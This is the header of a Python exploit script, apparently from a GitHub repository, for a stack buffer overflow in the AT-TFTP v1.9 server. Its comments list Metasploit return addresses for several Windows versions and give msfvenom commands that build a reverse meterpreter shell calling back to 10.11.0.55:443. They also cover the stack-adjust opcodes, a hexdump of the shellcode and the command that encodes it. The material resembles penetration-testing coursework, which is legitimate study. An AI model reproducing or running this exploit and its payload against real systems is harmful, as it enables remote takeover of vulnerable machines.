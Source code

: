 ## attftp_long_filename exploit prepared by Muhammad Haidari https://github.com/Muhammd/attftp_long_filename
## based on the https://www.exploit-db.com/exploits/16350/
##
## Exploits a stack buffer overflow in AT-TFTP v1.9, by sending a request (get/write) for an overly long file name.
## the Return addresses Extracted from Metasploit  
##
## Spawns a reverse meterpreter shell to 10.11.0.55:443
##
##
## TODO: adjust 
##		- pick the right return address for the appropriate target
##
## Usage: python attftp_long_filename.py <IP Address> <Port> <Your IP Address>

## Return addresses according to metasploit:
##
##          [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
##          [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
##          [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
##          [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
##          [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
##          [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
##          [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
##          [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
##          [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
##          [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
##          [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear

## Max space for shell code = 210
## Bad characters according to metasploit: \x00
## Payload via: 
##
## Generate payload: msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=10.11.0.55 LPORT=443 -a x86 --platform Windows -f raw -o payload
##
## Prepend a stack adjust of -3500 to the payload before encoding:
## Obtain stack adjust of -3500 (0xdac as per printf '%x\n' 3500) with /usr/share/metasploit-framework/tools/nasm_shell.rb:	
##       nasm > sub esp, 0xdac
##	 00000000  81ECAC0D0000      sub esp,0xdac
## add opcodes to a file: perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj
##
## Combine stackadj & payload: cat stackadj payload > shellcode
## hexdump -C shellcode
## 00000000  81 ec ac 0d 00 00 fc 6a  eb 47 e8 f9 ff ff ff 60  |.......j.G.....`|
## 00000010  31 db 8b 7d 3c 8b 7c 3d  78 01 ef 8b 57 20 01 ea  |1..}<.|=x...W ..|
## 00000020  8b 34 9a 01 ee 31 c0 99  ac c1 ca 0d 01 c2 84 c0  |.4...1..........|
## 00000030  75 f6 43 66 39 ca 75 e3  4b 8b 4f 24 01 e9 66 8b  |u.Cf9.u.K.O$..f.|
## 00000040  1c 59 8b 4f 1c 01 e9 03  2c 99 89 6c 24 1c 61 ff  |.Y.O....,..l$.a.|
## 00000050  e0 31 db 64 8b 43 30 8b  40 0c 8b 70 1c ad 8b 68  |.1.d.C0.@..p...h|
## 00000060  08 5e 66 53 66 68 33 32  68 77 73 32 5f 54 66 b9  |.^fSfh32hws2_Tf.|
## 00000070  72 60 ff d6 95 53 53 53  53 43 53 43 53 89 e7 66  |r`...SSSSCSCS..f|
## 00000080  81 ef 08 02 57 53 66 b9  e7 df ff d6 66 b9 a8 6f  |....WSf.....f..o|
## 00000090  ff d6 97 68 c0 a8 0c c5  66 68 01 bb 66 53 89 e3  |...h....fh..fS..|
## 000000a0  6a 10 53 57 66 b9 57 05  ff d6 50 b4 0c 50 53 57  |j.SWf.W...P..PSW|
## 000000b0  53 66 b9 c0 38 ff e6                              |Sf..8..|
## 000000b7
##
## Encode shellcode: cat shellcode | msfvenom -p - -b \x00 -a x86 --platform Windows -e x86/shikata_ga_nai -f python
## x86/shikata_ga_nai succeeded with size 210 (iteration=0)
